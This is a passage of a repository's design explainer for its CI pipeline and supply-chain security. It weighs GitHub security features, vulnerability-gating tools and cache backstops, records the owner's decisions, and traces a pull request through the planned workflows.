- **Secret scanning with push protection** (on). Secret scanning reads the whole history on all branches plus issues, PR text, discussions and wikis, for provider patterns (AWS, GitHub, AI vendors...), and tells the provider so they can revoke the key. Push protection blocks a push from the command line, the web editor, a file upload or the API when it contains a supported secret, *before* it reaches GitHub; anyone with write access can bypass it with a reason, and the bypass creates an alert and an email. Next to gitleaks (D7): GitHub catches provider keys everywhere on GitHub and stops them before the push; gitleaks catches generic secrets (entropy, private keys) and runs on your machine. Two optional extras are off: "non-provider patterns" (generic strings such as passwords in URLs) and "validity checks" (asks the provider whether the key is live); their availability on a free public repo is **verify**.
- **Dependency review action.** On every PR it diffs the dependency graph between base and head and fails when the PR *adds* a version with a known vulnerability (GitHub Advisory Database), or a dependency under a license you deny; it can show each new dependency's OpenSSF Scorecard. Free on public repos, needs the dependency graph (which parses `pnpm-lock.yaml`, transitive dependencies included). It overlaps with OSV-Scanner's PR mode (Q2) for vulnerabilities; the license check has no overlap. Runs with `contents: read`.
- **Dependabot alerts** (on). Alerts only: an entry in the Security tab and an email when a dependency in the graph gets an advisory. Renovate reads these alerts to open fix PRs. **Dependabot security updates** (on) open their own fix PRs, which would duplicate Renovate's; the 2026-10-06 run tried to bump `esbuild` and failed.
- **OpenSSF Scorecard.** A workflow (`ossf/scorecard-action`, on push to `main` and weekly) that scores the repo 0 to 10 on about 20 checks: Pinned-Dependencies, Token-Permissions, Dangerous-Workflow (`pull_request_target` with a checkout, script injection), Branch-Protection, Code-Review, Dependency-Update-Tool, SAST, Security-Policy, Signed-Releases, Vulnerabilities and others. Results go to the Security tab and, with `publish_results`, to a public badge; publishing needs `id-token: write` (to prove the result came from this repo) and `security-events: write` in that job only. Honest limit for a solo repo: Code-Review looks for an approval or a merger other than the committer on recent changes, so it will score low, and Signed-Releases waits for WP-7.
- **Private vulnerability reporting** (on). A "Report a vulnerability" button on the repo's Security page; a researcher's report reaches you privately. A `SECURITY.md` says where to report and what is in scope; it is what Scorecard's Security-Policy check looks for. Missing today.
- **CodeQL default setup** (ADR-026 already says "CodeQL if public"; the repo is public). Static analysis for JavaScript/TypeScript and, since CodeQL added it, GitHub Actions workflows. Configured today with no languages and one failed run, so it scans nothing; re-enabling it after this WP's workflows exist should pick both up. No workflow file needed.
- **"Require actions pinned to a full-length commit SHA"** (a repo setting, off). Makes D1's rule impossible to forget.

**Options.**
- *A. Everything:* keep secret scanning, push protection, Dependabot alerts and private reporting on; add the dependency review action (licenses and vulnerabilities), Scorecard with the badge, `SECURITY.md`, CodeQL default setup fixed, SHA pinning required; turn Dependabot security updates off. Most coverage and the most visible evidence; two tools comment on a vulnerable new dependency (dependency review and OSV-Scanner). Wins when the repo is a portfolio and the Security tab is part of what reviewers look at.
- *B. Native core, no duplicates:* A without the dependency review action's vulnerability check (keep it for licenses only, or drop it) and without the Scorecard badge (run Scorecard without publishing, or not at all). Fewer red checks for one problem. Wins when you want one tool per job.
- *C. Minimal:* keep only what is already on, turn security updates off, fix CodeQL (the ADR asks for it), add `SECURITY.md`. Least to maintain. Wins for a repo that will not be looked at as evidence.

**Patterns:** defense in depth versus duplicate alerts, shift left (push protection), coordinated disclosure, security scorecard.

**Question 1.** Which set do you adopt: A, B or C, or a mix (say which feature you keep or drop)?

### Q2. Which tool blocks a pull request on a known vulnerability: OSV-Scanner, `pnpm audit` or the dependency review action?

**What you need first.** The deliverable says "OSV-Scanner or `pnpm audit`" and leaves the choice open. The difference that matters is what each compares. A *full scan* checks every dependency in the lockfile against today's advisories; a *diff scan* checks only what the PR adds or changes. With a full scan, an advisory published on Tuesday for a package nobody touched turns every open PR red on Wednesday, including a typo fix; with a diff scan, that advisory goes to a scheduled scan and an alert instead, and PRs are blocked only for what they bring in.

**Example.** On 2026-06-12 GitHub published GHSA-g7r4-m6w7-qqqr for `esbuild` (`>= 0.27.3, < 0.28.1`, a dev-server file read on Windows). The lockfile holds `esbuild` 0.25.12 and 0.28.2, so this one does not apply; but had it matched, a full-scan gate would have blocked every PR until someone updated `esbuild`, while a diff gate would have blocked only the PR that added it.

**Options.**
- *A. OSV-Scanner.* Google's scanner over the OSV database (which aggregates the GitHub Advisory Database and others). Its reusable PR workflow scans the base and the PR and fails only on vulnerabilities the PR introduces; its scheduled workflow does a full scan and uploads the result to the Security tab. Reads `pnpm-lock.yaml`; the same binary runs locally. Needs `security-events: write` in its job (to upload the result) and `actions: read`. Wins as a diff gate plus a weekly full report, with an open database.
- *B. `pnpm audit`.* No new tool: pnpm 11 queries the npm registry's bulk advisory endpoint (GHSA ids). It is a full scan with no diff mode, so it blocks unrelated PRs as in the example; `--audit-level high` and an ignore list soften that. Wins for a quick local check, or in CI where a full-state gate is wanted on purpose (a release gate).
- *C. Dependency review action only.* A diff gate over the GitHub Advisory Database, plus licenses, native, `contents: read` only. No local equivalent and no scheduled full scan of its own (Dependabot alerts fill that). Wins when you prefer GitHub-native tools and the license check.

Any option departs from nothing: ADR-026 lists A and B, and the superseding ADR records the choice.

**Patterns:** diff-based gate versus full-state gate, alert fatigue, advisory database.

**Question 2.** Which tool gates PRs: A, B or C? (If you pick A and also adopt the dependency review action in Q1, say whether it keeps its vulnerability check or only checks licenses.)

### Q3. What backs up the affected runs: a full run on `main`, a scheduled uncached full run, or full runs on every PR?

**What you need first.** After D2, affected runs select tasks by declared inputs and the cache replays any task whose input hash it has seen. Two kinds of mistake can still slip through a PR: a *selection* mistake (a task whose hash did change was not selected, for example through a Turborepo bug) and an *undeclared input* (a test reads a file nobody declared, so its hash does not change and the cache replays the old green result). A full run with the cache catches the first and not the second; only a run without the cache (`--force`) catches the second. ADR-026 says only "affected"; nothing decides the backstop.

**Example.** Someone adds a test in `apps/agent` that reads `infra/rabbitmq/definitions.json` and forgets to declare it. Weeks later a PR changes `definitions.json` in a way that breaks that test. The PR's affected run does not select the agent test, and a cached full run on `main` replays the agent test's old result. Only an uncached run fails.

**Options.**
- *A. Full run on every push to `main`, with the cache* (`pnpm verify:all` plus all integration tests). Catches selection mistakes minutes after the merge; refreshes the cache that PRs read (D3). Cheap with a warm cache. Does not catch undeclared inputs. Wins when the input declarations are trusted.
- *B. A plus a scheduled uncached full run on `main`* (weekly or nightly, `--force`, unit and integration). Catches undeclared inputs within a week (or a day) of the change that exposes them; costs one long run per period, free on a public repo. Wins when correctness of the shortcut matters more than one run's minutes.
- *C. Full runs on every PR (no `--affected`), with the cache.* Simplest rule. Same blind spot as A for undeclared inputs; slower PRs as the repo grows. Wins in small repos or right after a big refactor of the task graph.
- *D. Full uncached runs on every PR.* Catches everything before merge; every PR pays the full build and test time. Wins when a broken `main` is very expensive (a deploy on every merge).

**Patterns:** backstop, defense in depth, fix forward, cost of a broken main.

**Question 3.** Which backstop: A, B, C or D? (For B, weekly or nightly?)

### Recommendations

Read after answering.

- **Q1: A, with Dependabot security updates off.** The repo is evidence for reviewers, and most of A is already on; the missing pieces (`SECURITY.md`, fixing CodeQL, requiring SHA pins, Scorecard) cost a file or a setting each. Keep the dependency review action for licenses (`license-check: true`, deny AGPL and GPL for a network service you deploy) and turn its vulnerability check off when Q2 is A, so one advisory does not fail two checks; keep both checks if Q2 is C. Publish the Scorecard badge, knowing Code-Review will stay low while you are the only reviewer (say so in the README rather than hide it). If you prefer fewer moving parts, B is a reasonable second choice; C leaves the Security tab thin for a portfolio repo.
- **Q2: A, OSV-Scanner,** as the PR diff gate plus a weekly full scan to the Security tab. It blocks a PR only for what the PR brings in, the database is open, and the same tool runs on your machine. `pnpm audit` stays a local command (a full-state gate would block unrelated PRs). If Q1 is C (no dependency review), still A. If you answered C here, then the dependency review action in Q1 must keep its vulnerability check, and Dependabot alerts are the scheduled full report.
- **Q3: B, weekly.** Push-to-`main` full runs with the cache keep PRs' caches warm and catch selection mistakes within minutes; a weekly uncached run (`--force`, unit and integration) catches undeclared inputs, which D2's lint test makes rare. Nightly is fine too if you want a shorter window; a failed scheduled run opens an issue so it is not missed. D wastes most of each PR's time on code it did not touch; C adds time without closing the blind spot.

## Implementation choices

What WP-6 builds, assuming the recommendations. Object to any line.

- **Workflows:** `ci.yml` (jobs `verify`, `integration`, `web`, `secrets`), `pr-title.yml`, `security.yml` (OSV-Scanner PR and weekly, plus dependency review per Q1), `scorecard.yml` (Q1), each a separate file so each check has one clear owner.
- **Triggers:** `pull_request` (default types) and `push` to `main` for `ci.yml`; `pull_request` with `edited` added only for `pr-title.yml`, so editing a PR description does not rerun the tests; `schedule` weekly for the backstop (Q3) and the full scans.
- **Permissions:** `permissions: {}` at the top of every workflow; each job lists only what it needs (`contents: read`; `security-events: write` only in the jobs that upload results; `id-token: write` only in Scorecard's job).
- **Concurrency:** one group per PR with `cancel-in-progress: true`, so a new push cancels the outdated run; never cancel on `main`.
- **Timeouts:** `timeout-minutes` on every job (15 for verify, 20 for integration and web), so a hung container does not burn six hours.
- **Checkout:** `fetch-depth: 0` (affected base, `check:migrations`, gitleaks) and `persist-credentials: false`.
- **Toolchain:** Node from `.nvmrc` (24.21.0) and pnpm from `packageManager` (11.28.2), installed by `pnpm/setup` (one action for both; `pnpm install --frozen-lockfile`).
- **Action versions:** each pinned to the newest release that is at least three days old today (the same cooldown as packages), by the SHA its tag points at: `actions/checkout` v7.0.1, `actions/cache` v6.1.0, `pnpm/setup` v3.0.0 (v3.1.0 and v3.1.1 came out today), `google/osv-scanner-action` v2.6.0, `actions/dependency-review-action` v5.0.0, `ossf/scorecard-action` v2.4.4; `actions/setup-node` v7.1.0 (2026-10-08) and `actions/upload-artifact` v7.0.2 (2026-10-07) are still inside the cooldown, so their previous releases if a job needs them.
- **Caches:** pnpm store keyed on the lockfile hash; `.turbo/cache` keyed on the commit with a prefix restore; restore on PRs, save on `main` only (D3).
- **Affected base:** `TURBO_SCM_BASE: ${{ github.event.pull_request.base.sha }}` on PRs; `main` runs are full (`verify:all`).
- **`turbo.json`:** `futureFlags.affectedUsingTaskInputs: true`; `$TURBO_ROOT$/infra/compose/**` declared in the `test` inputs of `@jadero/testing` and `@jadero/messaging`, and in `test:int`; a unit test fails when a test reads a file outside its package that no `inputs` entry declares.
- **`check:migrations`:** fails when `CI` is set and `origin/main` is missing, instead of passing (fail closed in CI).
- **Coverage:** `@vitest/coverage-v8` 5.0.3 in the catalog (matches `vitest` 5.0.3, its exact peer); the `json-summary` reporter added; ADR-009's glob thresholds in `apps/api` (and `apps/agent` when it has domain code); coverage runs inside the `test` task so `pnpm verify` and CI apply the same gate and the lefthook pre-push stops a drop before CI does; a small Node script writes one table per run to `$GITHUB_STEP_SUMMARY`, no third-party comment action (that would need `pull-requests: write`).
- **First coverage measurement:** step 4 measures each package before setting floors; a package below 80% today gets a step-log line with the gap and the plan, never a lowered ADR number.
- **Integration job:** `turbo run test:int --affected` on the runner's Docker (D4); `TESTCONTAINERS_RYUK_DISABLED` is not set (Ryuk works on GitHub runners and cleans up after a crash).
- **Consumer contract test:** `apps/agent` parses `fixtures/system.ping.v1.json` through the heartbeat consumer's schema; each new consumer adds one per subscribed event.
- **Web job:** only when `web` is affected (job-level `if:` from `turbo query affected`, so it reports Success otherwise): `next build` with `SITE_URL` set, Playwright smoke and axe per locale against the standalone server using the runner's preinstalled Chrome (`channel: "chrome"`); if WP-4's suspected `typecheck` and `build` race on `.next/` shows up, `typecheck` depends on `build`. The i18n key check already runs in `verify` (`apps/web/test/messages.test.ts`).
- **gitleaks:** the official container image pinned by digest (8.30.1), run with `gitleaks git --redact`: no license question, no write token, the same command locally. `gitleaks-action` v3 would also be free here (personal account) but asks for `pull-requests: write` to comment.
- **PR title:** `pnpm exec commitlint` reads the title from an environment variable on stdin.
- **Workflow lint:** `zizmor` (1.30.1, offline mode) runs in `verify` when `.github/workflows/**` changes: it finds template injection, unpinned or impostor SHAs and excessive permissions in the workflows themselves.
- **Renovate:** `renovate.json` extending `config:best-practices` (which pins action digests and adds the npm cooldown), `minimumReleaseAge: "3 days"`, `internalChecksFilter: "strict"`, groups as in D9, a weekly schedule, the dependency dashboard, no automerge.
- **pnpm:** `minimumReleaseAge: 4320` in `pnpm-workspace.yaml` (strict once set), with a comment on how to add a justified exclusion.
- **Repository settings (owner actions, M-13):** required status checks and squash-only on `protect-main`; "require SHA pinning" on; Dependabot security updates off; CodeQL default setup re-enabled; Renovate app installed on this repo only.
- **Docs:** `AGENTS.md` (status, the CI section), `.github/workflows/README.md` (one line per workflow and job, what it gates), `SECURITY.md`, the code map's CI view (`/map`).

## One concrete trace

The turbo selections below are real outputs of `turbo run ... --affected --dry=json` with Turborepo 2.11.7, run in a scratch clone of this repo on 2026-10-10; everything that needs a GitHub run is marked **expected output**.

### Trace 1: PR #118 runs, mostly from the cache, and goes green

State: `main` is at `a37b35f36b810725906be25ca8ad6482d15f9543`; the last push-to-`main` run saved both caches. You push branch `fix/entry-approval-summary` with one change in `apps/api/src/modules/content/domain/knowledge-entry.ts` plus its test, and open the PR.

1. GitHub emits the event. Excerpt of the payload (real field names; the head SHA is the scratch clone's commit):
   ```json
   {
     "action": "opened",
     "number": 118,
     "pull_request": {
       "title": "fix(api): refuse approving an entry with an empty summary",
       "head": { "ref": "fix/entry-approval-summary", "sha": "5f37175ab6c8ad385065134fc8f5c433df131ad0", "repo": { "fork": false } },
       "base": { "ref": "main", "sha": "a37b35f36b810725906be25ca8ad6482d15f9543" }
     },
     "repository": { "full_name": "JoseAlbDR/jadero-dev", "visibility": "public" }
   }
   ```
2. GitHub builds the merge commit `refs/pull/118/merge` (its first parent is the base SHA) and starts every workflow whose `on:` matches: `ci.yml`, `pr-title.yml`, `security.yml`; CodeQL's default setup runs on its own.
3. Each job gets a fresh Ubuntu 24.04 VM and a `GITHUB_TOKEN` with `contents: read` only.
4. `verify` job: checkout with full history; `pnpm/setup` installs pnpm 11.28.2 and Node 24.21.0; the store cache `pnpm-store-Linux-<hash of pnpm-lock.yaml>` hits (same lockfile as `main`), so `pnpm install --frozen-lockfile` links packages without downloading. **Expected output:** `Cache restored from key: pnpm-store-Linux-...`.
5. Turbo cache: the exact key `turbo-Linux-<merge sha>` misses, the prefix `turbo-Linux-` restores `main`'s newest entry.
6. `pnpm verify` with `TURBO_SCM_BASE=a37b35f3...`. Turborepo diffs base to `HEAD`: the changed files are all in `@jadero/api` (the dry run used the one-line change). Today's selection (real output, package-level mode):
   ```
   @jadero/api#test        de1c0b2bd503635a
   @jadero/api#typecheck   9c908a6e661dc5b4
   @jadero/config#build    92a6eb372bb27ade
   @jadero/contracts#build 292e77cc38b76dd4
   @jadero/messaging#build b108b45cbfa37e83
   @jadero/platform-nest#build 16e0e752963e3b91
   @jadero/testing#build   0641e362d64efc7c
   ```
   No `//#lint`, no `//#depcruise`: the gap of D2. After step 2 (flag on, real output from the clone): `//#depcruise //#lint @jadero/api#test @jadero/api#typecheck` plus the same builds.
7. The five builds hit the restored cache. **Expected output:** `@jadero/contracts:build: cache hit, replaying logs 292e77cc38b76dd4`. `//#lint`, `//#depcruise`, `api#typecheck` and `api#test` miss (their inputs changed) and run; `api#test` runs with coverage, every threshold holds, and the summary table lands on the run page.
8. `pnpm check:migrations` compares `apps/*/drizzle` journals with `origin/main` (present thanks to the full fetch): nothing changed.
9. `integration` job: `turbo run test:int --affected` selects `@jadero/api#test:int`; Testcontainers starts `pgvector/pgvector:0.8.7-pg18` on the runner's Docker; each test file gets its own database and role; Ryuk removes the container at the end.
10. `secrets` job: `gitleaks git --redact --log-opts="a37b35f3..HEAD"` scans the PR's commits. **Expected output:** `no leaks found`.
11. `pr-title`: commitlint reads the title from `$TITLE`; `fix` and scope `api` pass.
12. `security.yml`: OSV-Scanner scans the base and the merge commit; the lockfile did not change, so no new vulnerability.
13. Every required check is green; you squash-merge. The title becomes the commit on `main`; the push starts `ci.yml` on `main`: `pnpm verify:all` and every integration suite, mostly cache hits, then both caches are saved for the next PR.

### Trace 2: three failures

**2a. Coverage drops in the content domain.** Same PR, but the new guard has no test. Step 7 changes: `api#test` passes its tests, then Vitest checks the thresholds. **Expected output** (the message format is Vitest 5.0.3's, from its source; the percentage is illustrative):
```
ERROR: Coverage for branches (84.21%) does not meet "src/modules/*/domain/**" threshold (85%)
```
Vitest exits 1, Turborepo marks `@jadero/api#test` failed and stops, the `verify` job fails, the required check is red, and the merge button is disabled. You add the test and push; GitHub sends `synchronize`, the concurrency group cancels nothing (the old run finished) and the new run starts at step 1. The lefthook pre-push would have stopped this before the push, because `pnpm verify` runs the same gate.

**2b. A RabbitMQ image bump that today's affected run does not test.** A PR changes only `rabbitmq:4.3.6-management-alpine` to `4.3.7` in `infra/compose/compose.dev.yml`, forgetting `packages/messaging/test/setup/images.ts`. Today (real output): `//#depcruise //#lint //#test:scripts`, no package test; the parity test that would catch the mismatch never runs, and `main` gets a dev image that differs from the test image. After step 2 with both readers declared, the same change selects `@jadero/testing#test` and `@jadero/messaging#test`, and the messaging parity test fails with the two image names. (In the clone, with only `@jadero/testing` declared, it selected only `@jadero/testing#test`: every reader must be declared, which is why the lint test of D2 exists.)

**2c. A key in a fixture.** A commit adds a real-looking AI provider key to `apps/agent/test/fixtures/` and the next commit deletes it. If the key matches a provider pattern, push protection rejects the `git push` before GitHub stores it, naming the file and line; you rotate the key and drop the commit. If it is a generic secret, the push goes through, and the `secrets` job fails on the first commit even though the final diff is clean. **Expected output:** `leaks found: 1`, with the rule id, the file, the commit and the secret redacted. You rotate the key first, then decide with the owner whether to rewrite the branch.

## Patterns

| Pattern | Where it appears |
|---|---|
| Event-driven automation; workflow, job, step, runner | D1, Trace 1 steps 1 to 3 |
| Ephemeral build environment | D1 (fresh VM per job), D4 (containers per run) |
| Least privilege | D1 (`permissions:`), Q1 (Scorecard's job), Implementation choices |
| Trust boundary (`pull_request` versus `pull_request_target`) | D1, D3 (cache poisoning) |
| Immutable reference, pin by content hash | D1 (action SHAs), Implementation choices (gitleaks image digest) |
| Untrusted input handling (script injection) | D1, D8 |
| Incremental (affected) build, task graph | D2, Trace 1 step 6 (from WP-1) |
| Content-addressed memoization | D2, D3, Trace 1 step 7 (from WP-1; the same idea as WP-12's ETag) |
| Declared inputs (hermeticity) | D2, Trace 2b |
| Fail safe versus fail open | D2 (Turborepo runs everything; `check:migrations` passed silently) |
| Backstop, fix forward | D2, Q3 |
| Single trusted writer, scope isolation, cache poisoning | D3 |
| Environment parity, test isolation | D4 (same harness locally and in CI, database per test file) |
| Quality gate, ratchet | D5, D10 |
| Coverage versus correctness | D5 (mutation testing as the later check) |
| Contract test, consumer-driven contract, schema compatibility, expand/contract | D6 (from WP-5) |
| Secret scanning, rotate before rewrite | D7, Q1, Trace 2c |
| Shift left | D6, D7, Q1 (push protection) |
| Single source of truth | D8 (the title is the commit) |
| Cooldown (quarantine period), batching, update flow | D9 |
| Required check, path filter pitfall, skipped means success | D10 |
| Diff-based gate versus full-state gate, alert fatigue | Q2 |
| Defense in depth versus duplicate alerts | Q1, Q2 |
| Coordinated disclosure | Q1 (private vulnerability reporting, `SECURITY.md`) |

## Proposed steps

The explainer is the gate, not a step. Each step ends with a green `pnpm verify`, one scoped commit and two lines in the step log; workflow steps are shown running on the PR.

1. *Explainer and superseding ADR* (learning): this file; after your answers, the ADR that supersedes ADR-026 with the lines listed under Decision, and the matching edits to report.md's WP-6 row and decisions.json's WP-6 deliverable text (ids unchanged).
2. *`ci.yml` skeleton* (learning): triggers, `permissions: {}` plus job permissions, SHA-pinned actions, concurrency, timeouts, pnpm and Turborepo caches (restore on PRs, save on `main`), `verify` in affected mode against the PR base; the `turbo.json` flag and declared inputs with the undeclared-read test; `check:migrations` fails closed in CI.
3. *Integration job and event contract tests* (learning): `test:int` on Testcontainers in CI; the consumer-side fixture test in `agent`; contract tests confirmed inside `verify`.
4. *Coverage gates* (learning): `@vitest/coverage-v8`, ADR-009's thresholds per package and layer, first measurement, the job-summary table.
   - Mid-WP `reviewer` on the branch.
5. *Web job* (candidate for `known`): `next build` with `SITE_URL`, Playwright smoke and axe per locale, only when `web` is affected.
6. *PR title, secrets and native features* (learning): `pr-title.yml`, gitleaks over the PR range and the full history, `zizmor`, and the GitHub features adopted in Q1 that live in the repo (`SECURITY.md`, dependency review, Scorecard).
7. *Supply chain* (learning): `security.yml` with the Q2 gate and the weekly full scan, `renovate.json`, `minimumReleaseAge` in `pnpm-workspace.yaml`, the scheduled backstop of Q3; then your settings: required status checks, squash-only ruleset, SHA pinning required, Dependabot security updates off, CodeQL re-enabled, Renovate installed.
8. *Docs and map*: `AGENTS.md`, `.github/workflows/README.md`, the code map (`/map`), then `/wrap-wp 6`.

## Decision

Recorded 2026-10-11 ([ADR-048](../adr/0048-ci-pipeline-and-supply-chain.md), accepted by the owner; D-78). The owner said go to D1 to D10 and the implementation choices, and answered:
- **Q1: A.** Dependency review for licenses only (AGPL and GPL denied, vulnerability check off because Q2 is OSV-Scanner); Scorecard with the public badge and a README note that Code-Review scores low with one reviewer; `SECURITY.md`; CodeQL default setup for JavaScript/TypeScript and Actions; the setting that requires SHA pinning; Dependabot security updates off, alerts on.
- **Q2: A.** OSV-Scanner as the pull request diff gate plus a weekly full scan; `pnpm audit` stays local.
- **Q3: B, weekly.** A cached full run on every push to `main` and a weekly uncached (`--force`) full run; a failed scheduled run opens an issue.

All three match the recommendations, so there was nothing to challenge.

**What ADR-048 changes against ADR-026** (lines quoted from ADR-026's "Workflows" section):
1. `ci.yml`: "integration tests with `pgvector/pgvector` and `rabbitmq` service containers" becomes "integration and end-to-end tests on Testcontainers through `packages/testing`, on the runner's Docker". Decided by you on 2026-10-10 (D4); not pending.
2. `ci.yml`: "`turbo run lint typecheck test build --affected`" gains how affected is made safe: the PR base SHA as `TURBO_SCM_BASE`, full history, task-level affected detection with every out-of-package read declared, and the backstop chosen in Q3 (D2).
3. `ci.yml`: "Docker build without push (validates Dockerfiles)" stays, marked as arriving with WP-7 (no Dockerfiles yet). Timing only.
4. `security.yml`: "weekly and on PRs touching lockfiles or Dockerfiles" becomes "on every PR and weekly": a required check cannot sit behind a path filter (D10).
5. `security.yml`: "OSV-Scanner or `pnpm audit`" becomes the tool chosen in Q2, with its mode (diff gate on PRs, full scan weekly).
6. `security.yml`: "Trivy on built images" stays, marked as arriving with WP-7.
7. `security.yml`: "CodeQL if public" becomes "CodeQL default setup for JavaScript/TypeScript and GitHub Actions" (the repo is public; today it scans nothing).
8. A new section, "Supply chain and repository settings", from the 2026-10-09 audit and Q1: actions pinned by SHA (plus the repo setting that requires it), least-privilege `permissions:` per workflow and job, `pull_request` only (no `pull_request_target`), Renovate with grouped updates and a three-day cooldown, pnpm's strict `minimumReleaseAge`, the GitHub features adopted in Q1, required status checks on the `protect-main` ruleset.

## Step log

## Recap

## Named here

| Name | What it is, in one line | When |
|---|---|---|
| WP-1 | Repo foundation: pnpm workspace, Turborepo, affected runs, commitlint and lefthook | done |
| WP-3 | Service platform; Testcontainers harness; coverage thresholds in the Vitest base | done |
| WP-4 | Web skeleton; the Playwright and axe e2e this WP runs in CI | done |
| WP-5 | Messaging; contracts with fixtures and the frozen-schema gate | done |
| WP-10 | Data layer; integration tests on real Postgres (D7) | done |
| WP-12 | Content domain; `packages/testing`; the Testcontainers-in-CI decision | done |
| WP-7 | Images, release-please per service, SBOM, Trivy; the Docker build check | R0, next |
| WP-9 | Deploy pipeline and staging smoke tests | R0 |
| WP-19 | `packages/ai`, whose 90% line gate starts then | R2 |
| WP-24 | Tracing and evals, `evals.yml` | R3 |
| WP-28 | Release QA, including a gitleaks history scan | R1 |
| WP-51 | OpenAPI breaking-change check in CI | R1 |
| ADR-001 | Turborepo and pnpm; CI caches `.turbo` and the pnpm store | accepted |
| ADR-009 | Testing strategy and coverage targets | accepted |
| ADR-024 | Biome, dependency-cruiser, commitlint on the PR title | accepted |
| ADR-025 | release-please per service; the PR title is the squash commit | accepted |
| ADR-026 | Pipeline, environments, images and deploy; superseded in part by this WP | accepted |
| ADR-029 | Service boundaries; events versioned and changed expand/contract | accepted |
| ADR-041 | Work tracking; the PR closes the issue | accepted |
| GitHub Actions | GitHub's CI: events start workflows of jobs of steps on runners | this WP |
| Turborepo | Task runner with a task graph, input hashing, a cache and `--affected` | WP-1 |
| Testcontainers | Starts real containers from test code | WP-3 |
| gitleaks | Secret scanner for git history and directories | this WP |
| OSV-Scanner | Vulnerability scanner over the OSV database, with a PR diff mode | this WP (Q2) |
| Renovate | Dependency update bot with grouping and a cooldown | this WP |
| OpenSSF Scorecard | Scores a repo's security practices, badge optional | this WP (Q1) |
| CodeQL | GitHub's static analysis, default setup without a workflow file | this WP |
| zizmor | Static analysis for GitHub Actions workflows | this WP |
| tj-actions/changed-files | The action whose tags were moved to malicious code, CVE-2025-30066 | example |

## Facts checked

| Tool | Version on 2026-10-10 | Source | Note |
|---|---|---|---|
| `turbo` | 2.11.7, 2026-10-02 | `npm view`; docs at tag `v2.11.7` (`reference/run.mdx`, `reference/configuration.mdx`, `reference/query.mdx`, `crafting-your-repository/constructing-ci.mdx`, `caching.mdx`) | `--affected` is `--filter=...[main...HEAD]`; a too-shallow checkout counts all packages as changed; GitHub Actions base from `GITHUB_BASE_REF`; `TURBO_SCM_BASE` overrides; `futureFlags.affectedUsingTaskInputs` and `githubActionsRemoteBaseRefFallback` exist; `$TURBO_ROOT$` inputs; reasons `LockfileChanged`, `GitRefNotFound` and `ScmError` (the last two select all) |
| `turbo` behavior | 2.11.7 | dry runs in a scratch clone of this repo | package-only change: no root tasks; with the flag: `//#depcruise //#lint` selected; compose-only change: root tasks only, then `@jadero/testing#test` with a declared `$TURBO_ROOT$` input; inferred GitHub base missing: warning and all 26 tasks; explicit unresolvable `TURBO_SCM_BASE`: hard error; the untracked `.mcp.json` in the main checkout is what selected root tasks locally; `turbo query affected` on the 2026-10-09 override commit `470b0c5`: `LockfileChanged` for every package, `ConservativeRootLockfileChanged` for the root |
| `pnpm` | 11.28.2 (repo pin, 2026-09-28); latest 12.11.2 | `npm view`; `npm pack pnpm@11.28.2`, `dist/pnpm.mjs` (config defaults, `createMinimumReleaseAgeHandler`); pnpm.io settings page | `minimum-release-age` default `24 * 60`; explicit setting makes `minimumReleaseAgeStrict` true; strict prompts locally and fails in CI (`NO_MATURE_MATCHING_VERSION`); non-strict adds immature picks to `minimumReleaseAgeExclude` (from code, **verify** with an install); docs: since v11 default 1440, added in v10.16.0 |
| `pnpm audit` | pnpm 11 | pnpm.io/cli/audit | queries `/-/npm/v1/security/advisories/bulk`; GHSA ids since v11; full scan, no diff mode |
| `vitest`, `@vitest/coverage-v8` | 5.0.3, 2026-09-30 | `npm view` (peer `vitest` 5.0.3); docs at tag `v5.0.3`, `config/coverage.md`; `npm pack vitest@5.0.3` | glob thresholds with their own `perFile`; files under a glob also count in the global number; message `ERROR: Coverage for <key> (<n>%) does not meet <label> threshold (<n>%)` |
| `actions/checkout` | v7.0.1, 2026-07-20, `3d3c42e5aac5ba805825da76410c181273ba90b1` | GitHub releases and `commits/<tag>` API; README at tag | one commit by default; `fetch-depth: 0` for all history; `persist-credentials` |
| `actions/setup-node` | v7.1.0, 2026-10-08 (`949feb24...`); v7.0.0, 2026-07-14 (`82076278...`) | GitHub releases; README at tag | pnpm caching only with `cache: pnpm` |
| `actions/cache` | v6.1.0, 2026-06-26, `55cc8345863c7cc4c66a329aec7e433d2d1c52a9` | GitHub releases | restore and save sub-actions |
| `pnpm/setup` | v3.1.1 and v3.1.0, 2026-10-10; v3.0.0, 2026-09-20, `fbda4c85fc2e1e08721cd8763afea8f48d60f024` | GitHub releases; README and `action.yml` at tag | installs pnpm 11+ and the runtime from `.nvmrc`; `cache` input; `save-cache` only from v3.1.x |
| `pnpm/action-setup` | v6.1.0, 2026-09-05, `ea17c68df8912ef543352723c149a84f56e3d413` | GitHub releases; README | points pnpm 11+ users to `pnpm/setup` |
| `gitleaks` | 8.30.1, 2026-03-21; image `ghcr.io/gitleaks/gitleaks:v8.30.1` | GitHub releases; README at tag; `docker manifest inspect` | `git`, `dir`, `stdin` commands; `--log-opts`, `--redact` |
| `gitleaks-action` | v3.0.0, 2026-05-30, `e0c47f4f8be36e29cdc102c57e68cb5cbf0e8d1e` | README at tag | license only for organizations; the repo owner is a personal account (API: `owner.type` User); uses the token to comment on PRs |
| `google/osv-scanner-action` | v2.6.0, 2026-09-14, `a345acffa64b0eaede81a3d9aae6141214d9c8fc` | README and `osv-scanner-reusable-pr.yml` at tag | PR workflow fails only on vulnerabilities the PR introduces (`fail-on-vuln` default true); job permissions `actions: read`, `contents: read`, `security-events: write`; its own actions pinned by SHA |
| `actions/dependency-review-action` | v5.0.0, 2026-05-08, `a1d282b36b6f3519aa1f3fc636f609c47dddb294` | `action.yml` and README at tag; docs.github.com "About dependency review" | `license-check`, `vulnerability-check`, `show-openssf-scorecard` inputs; `contents: read`; free on public repos; needs the dependency graph |
| Dependency graph and pnpm | n/a | docs.github.com "Dependency graph supported package ecosystems" | `pnpm-lock.yaml` parsed statically with transitive dependencies; dependency review on a real lockfile change: **verify** on the first such PR |
| `ossf/scorecard-action` | v2.4.4, 2026-07-23, `2d1146689b8cda280b9bc96326124645441f03bc` | README at tag; `docs/checks.md` and `checks.yaml` on `main` | free for public repos; `publish_results` needs `id-token: write`; `push` and `schedule` supported, `pull_request` experimental; reads rulesets with the default token; check list and risk levels |
| `github/codeql-action` | v4.38.3, `24c54180a607b1449ed407dd24f251e4e9147c8d` | tags API | CodeQL supports `actions` (GitHub Actions) as a language (codeql.github.com); default setup needs no workflow, runs nothing when no supported language is found |
| `zizmor` | 1.30.1, 2026-09-09 | PyPI; README at tag | audits template injection, credential persistence, excessive permissions, impostor commits |
